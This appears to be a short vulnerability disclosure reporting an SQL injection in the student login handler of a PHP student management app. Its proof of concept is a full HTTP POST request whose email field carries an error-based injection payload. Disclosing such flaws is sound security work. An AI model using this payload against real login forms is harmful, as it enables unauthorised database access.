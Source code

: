 # SQL Injection Vulnerability at student_login.process.php

There is a SQL Injection Vulnerability at `student_login.process.php`.When a student try to login in to the student dashboard.There is a SQL Injection Vulnerability at the param `$id`

The Vulnerabilty Loation is bellow.

<img width="680" alt="11" src="https://user-images.githubusercontent.com/44317939/202435903-6387df2b-4f37-4a60-90c1-1645a6d5a228.png">


Here is the PoC

```bash
POST /tms/processes/student_login.process.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 71
Cache-Control: max-age=0
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/tms/login_stud.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=ddd'and 1=(updatexml(1,concat(0x3a,(select user())),1))--+&pwd=dd
```

<img width="926" alt="222" src="https://user-images.githubusercontent.com/44317939/202435970-265b375c-a22f-48e8-b8e6-5d6dda14da7d.png">
